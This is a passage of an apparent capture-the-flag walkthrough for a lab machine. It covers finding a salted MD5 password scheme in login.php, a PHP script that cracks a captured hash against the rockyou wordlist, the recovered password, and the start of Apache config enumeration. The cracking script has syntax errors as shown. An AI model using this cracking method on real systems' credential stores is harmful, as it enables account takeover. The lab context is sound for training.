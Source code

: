 We get a hash for `srvadm` seems to be md5 After wasting time to decrypt it When I saw login.php in '/var/www/html' I founded some salting is being used in it to encrypt it

```php
sam@quick:/var/www/html$ cat login.php
cat login.php
<?php 
include("db.php");
if(isset($_POST["email"]) && isset($_POST["password"]))
{
  $email=$_POST["email"];
  $password = $_POST["password"];
  $password = md5(crypt($password,'fa'));
[REDACTED]
```
So I wrote a short php script to dcode the hash implementing same logic

```php
<?php
$handle = fopen("/usr/share/wordlists/rockyou.txt", "r");
if ($handle) {
    while (($line = fgets($handle)) !== false) 
    {
      $pass= "e626d51f8fbfd1124fdea88396c35d05";
        $Password= MD5(crypt($line,'fa'))        
        if($pass==$Password)
        {
          echo "Hash Cracked Password is: "$line;
        }  
    }

    fclose($handle);
} 
else {
    // 
    echo "error opening the file.";
} 
?>
```

On running the script we get the password `yl51pbx`

Now while doing enumertaion we got a `printer` dir /var/www

Let's check host file

```bash
sam@quick:/etc/apache2/sites-enabled$ cat 000-default.conf
cat 000-default.conf
<VirtualHost *:80>
  # The ServerName directive sets the request scheme, hostname and port that
  # the server uses to identify itself. This is used when creating
  # redirection URLs. In the context of virtual hosts, the ServerName
  # specifies what hostname must appear in the request's Host: header to
  # match this virtual host. For the default virtual host (this file) this
  # value is not decisive as it is used as a last resort host regardless.
  # However, you must set it for any further virtual host explicitly.
  #ServerName www.example.com

  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
  # error, crit, alert, emerg.
  # It is also possible to configure the loglevel for particular
  # modules, e.g.
  #LogLevel info ssl:warn
```